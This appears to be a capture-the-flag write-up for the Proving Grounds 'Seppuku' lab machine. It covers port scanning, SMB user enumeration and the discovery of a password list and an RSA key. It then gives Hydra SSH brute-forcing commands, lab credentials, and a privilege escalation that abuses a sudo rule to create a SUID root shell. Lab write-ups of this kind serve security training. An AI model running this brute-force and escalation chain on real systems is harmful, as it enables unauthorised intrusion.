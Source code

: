 ```yaml
---
layout: default
title: Seppuku
parent: Proving Grounds - Linux
nav_order: 1
---
```


# Seppuku

---

## Host Info

- **OS**: Linxu
- **Hostname**: seppuku
- **IP**: 192.168.166.90

## Discovered Ports for Enumeration

| Port/Service        | Version | Notes |
| ------------------- | ------- | ----- |
| 21 - FTP            |         |       |
| 22 - SSH            |         |       |
| 80 - HTTP           |         |       |
| 445 - SMB           |         |       |
| 7080 - ssl empoweri |         |       |
| 7601 - HTTP         |         |       |
| 8088 - HTTP         |         |       |

## Users and Credentials

- **Users**: seppuku, samurai, tanto
- **Credentials**: seppuku:eeyoree, samurai:12345685213456!@!@A

# Scanning (Nmap)

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.166.90
```

# Enumeration

---

## 21 - FTP

Anonymous logon not allowed

## 80 - HTTP

Nothing useful

## 445 - SMB

### Enum4linux

Discovers three user accounts:

- seppuku
- samurai
- tanto

![seppuku_users](../../../assets/images/ctfs/proving_grounds/seppuku/seppuku_users.png)

## 7601 - HTTP

wfuzz discovered /secret directory

![secret](../../../assets/images/ctfs/proving_grounds/seppuku/secret.png)

"password.lst" contains potential user passwords for target machine.

![password_list](../../../assets/images/ctfs/proving_grounds/seppuku/password_list.png)

wfuzz also discovered the /keys directory which contains an RSA private key

![private](../../../assets/images/ctfs/proving_grounds/seppuku/private.png)

# Exploitation

---

## Hydra password cracking

Run Hydra against the user accounts discovered by Enum4Linux and the passwords discovered in the /secrets directory

```bash
hydra -L users -P passwords ssh://192.168.166.90
```

Get the credential _seppuku:eeyoree_

![hydra](../../../assets/images/ctfs/proving_grounds/seppuku/hydra.png)

## Authenticate with RSA key

Authentication with RSA private key discovered in the /keys directory works with "tanto" user

```bash
ssh -i id_rsa tanto@192.168.166.90
```

![tanto_ssh](../../../assets/images/ctfs/proving_grounds/seppuku/tanto_ssh.png)

# Post-Exploitation

---

## Enumerate user directories

Locate _.passwd_ file located in /home/seppuku directory.

samurai:12345685213456!@!@A
{: .warn }

## sudo -l

The "samurai" user can run the following command with sudo privileges and no password:

```bash
/../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

![sudo_l](../../../assets/images/ctfs/proving_grounds/seppuku/sudo_l.png)

We can exploit this with the following steps:

1. ssh as "tanto"
2. create directory .cgi_bin
3. create "bin" file in /.cgi_bin
4. make "bin" executable
5. switch back to "samurai" user
6. execute the sudo command to create /var/tmp/bash
7. execute /var/tmp/bash and get root privileges

### SSH as tanto user

We discovered the id_rsa private key for "tanto" during enumeration

```bash
ssh -i id_rsa tanto@192.168.166.90
```

### Create /.cgi_bin/bin

```bash
mkdir .cgi_bin
cd .cgi_bin
nano bin
```

![bin_file](../../../assets/images/ctfs/proving_grounds/seppuku/bin_file.png)

Make "bin" executable

```bash
chmod +x bin
```

### Execute sudo command as samurai user

Reauthenticate as the "samurai" user and execute the privileged sudo command

```bash
/../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

### Run bash binary and get root privileges

```bash
cd /var/tmp
./bash -p
```

![root](../../../assets/images/ctfs/proving_grounds/seppuku/root.png)

